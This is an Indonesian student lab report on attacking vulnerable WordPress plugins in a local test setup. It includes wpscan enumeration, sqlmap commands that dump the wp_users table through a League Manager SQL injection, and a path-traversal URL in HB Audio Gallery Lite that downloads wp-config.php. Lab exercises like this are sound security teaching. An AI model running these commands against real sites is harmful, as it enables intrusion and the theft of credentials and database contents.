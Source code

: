 ##Dokumentasi Perancangan Keamanan Sistem dan Jaringan

>###Penulis
>* M. Syaiful Jihad A.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100022
>* Yoga Bayu Aji P.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100023
>* Bagas Andita S.&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;5113100029

##Percobaan Serangan pada Plugins CMS Wordpress

##Simulasi dan skema serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Percobaan kali ini akan melakukan serangan pada celah keamanan yang ada pada plugin wordpress. Alat yang digunakan menggunakan wordpress versi 4.0. Kemudian akan diinstall beberapa plugin yang memiliki celah keamanan.

###Persiapan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pertama kita siapkan dulu CMS Wordpress yang akan digunakan. CMS dapat diunduh dari link [berikut](http://https://wordpress.org/download/).

####Langkah Installasi
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Persiapan untuk melakukan installasi wordpress:
- Web Server (Apache)
- Database (MySQL)
- PHP (5.6)

Sebelum melakukan installasi wordpress, kita persiapkan database dan usernya terlebih dahulu. Pada percobaan kali ini didapatkan konfigurasi sebagai berikut
>Database: wordpress
>DB Username: wordpressuser
>DB Password: wppasswd

Setelah semua terinstall maka extract CMS wordpress yang sudah kita download tadi kedalam folder /var/www/html. Setelah itu buat file konfigurasi wordpress. Dalam wordpress sudah disediakan contoh file konfigurasi sehingga kita dapat menggunakannya.
```
cp wp-config-sample.php wp-config.php
```
Setelah itu kita edit file ++wp-cinfig.php++ dan masukan konfigurasi koneksi database seperti pada gambar dibawah

![wp-config](asset/tugas2/wp-config.png)

Setelah itu kita buka wordpress dari web browser dan masukkan konfigurasi password admin login dan nama website. Username yang digunakan:
>Username: testing
>Password: testing

Setelah semua konfigurasi selesai, kita menginstall plugin yang akan kita pasang dan melakukan uji coba serangan. Cara menginstallasi plugin tersebut, kita meletakkan plugin yang sudah kita download kedalam folder wp-content/plugins/. Setelah itu kita masuk kedalam dashboard admin pada wordpress dan melakukan aktivasi plugin yang sudah kita install.

![activate](asset/tugas2/activate.png)

###Uji Coba Serangan
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan plugin wordpress, kali ini kita menggunakan Sistem Operasi Kali Linux. Setelah melakukan installasi, kita melakukan enumerasi terhadap target untuk mengetahui apa saja celah keamanan yang ada pada website tersebut. Tools yang digunakan adalah [WPScan](http://wpscan.org). Untuk melakukan enumerasi gunakan perintah:
```
wpscan --url http://target.com --enumerate
```
```
# wpscan --url http://10.151.36.38/wordpress --enumerate
```

Maka akan muncul seperti ini:

![wpscan_init](asset/tugas2/wpscan_init.png)

####Uji Coba Dengan Plugin Video Player 1.5.16
berikut ini adalah tampilan plugin video player 1.5.16
![videoplayer](asset/tugas2-023/12.PNG)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![serang1](asset/tugas2-023/13.PNG)

kemudian akan ditemukan sebuah username yang digunakan untuk login pada website seperti berikut ini :

![serang2](asset/tugas2-023/15.PNG)
catatan : alamat website adalah alamat website berbeda (dengan IP address 192.168.232.129)

####Uji Coba Menggunakan League Manager 3.9.1.11
Pada tahap ini dilakukan instalasi plugin league manager versi 3.9.1.11. berikut ini adalah tampilan plugin league manager 3.9.1.11 ketika sudah diaktifkan :

![league manager 3.9.1.1](asset/tugas2-023/14.PNG)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![serangleague](asset/tugas2-023/leaguemanager_wpscan.PNG)

Pada uji coba ini dihasilkan hasil yang sama seperti ketika menggunakan plugin video player 1.5.16

![league](asset/tugas2-023/16.PNG)

####Uji Coba Menggunakan WP Ultimate Explorer 1.1
Pada tahap ini dilakukan instalasi plugin WP Ultimate Explorer versi 1.1. berikut ini adalah tampilan plugin WP Ultimate Explorer versi 1.1 ketika sudah diaktifkan :

![wpultiexplore](asset/tugas2-023/wp-ultimate-explorer-show.png)

uji coba menggunakan wpscan didapati hasil sebagai berikut

![wpexploreratt](asset/tugas2-023/wp-ultimate-explorer.PNG)

####Uji Coba Menggunakan WP Symposium 15.1

uji coba menggunakan wpscan didapati hasil sebagai berikut

![wpwp](asset/tugas2-023/wp-symposium.PNG)

####Uji Coba Serangan SQL Injection
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukan uji coba serangan SQL Injection, maka kita memerlukan tools yang bernama [sqlmap](http://sqlmap.org). Kali ini kita akan mencoba melakukan serangan pada plugin League Manager dengan celah keamanan seperti pada website [ini](https://www.exploit-db.com/exploits/37182/). 
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Untuk melakukannya kita akan menyerang link dari pertandingan yang ada pada website tersebut. Perintah yang  digunakan untuk mendapatkan database yang digunakan adalah:
```
sqlmap --url "http://target.com/?match=1" --level 5 --risk 3 -dbs
```
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 -dbs
```

Maka akan dihasilkan :
![getDB](asset/tugas2/getDB.png)

Selanjutnya kita akan mencari tabel yang ada dalam database tersebut. Perintah yang digunakan adalah sebagai berikut ini:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --tables -D wordpress
```
Akan muncul semua tabel yang ada. Disini kita menumukan table wp_user, untuk itu kita akan melihat data apa saja yang ada dalam tabel tersebut. Perintah yang digunakan adalah:
```
# sqlmap --url "http://10.151.36.38/wordpress/index.php/2016/10/12/tet?match=1" --level 5 --risk 3 --dump -D wordpress -T wp_users
```

Tara, kita mendapatkan hasil username dan password dari login wordpress yang terdaftar.

![getUser](asset/tugas2/getUser.png)

>Note: hasil password didapat karena hash sudah ada dalam dictionary

####Uji Serangan pada Plugin HB Audio Gallery Lite 1.0.0
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Pada plugin tersebut terdapat sebuah celah keamanan berupa Arbitrary File Donwload. Jadi celah keamanan ini dapat mendownload file yang seharusnya tidak boleh diakses oleh pengguna. Dokumentasi dari celah ini dapat dibaca [disini](https://www.exploit-db.com/exploits/39589/). Cara memanfaatkan celah ini adalah dengan menggunakan  perintah:
```
/wp-content/plugins/hb-audio-gallery-lite/gallery/audio-download.php?file_path=../../../../wp-config.php&file_size=10
```

Setelah menjalankan perintah tersebut maka file wp-config.php akan didownload.
![getWp-config](asset/tugas2/getWp-config.png)
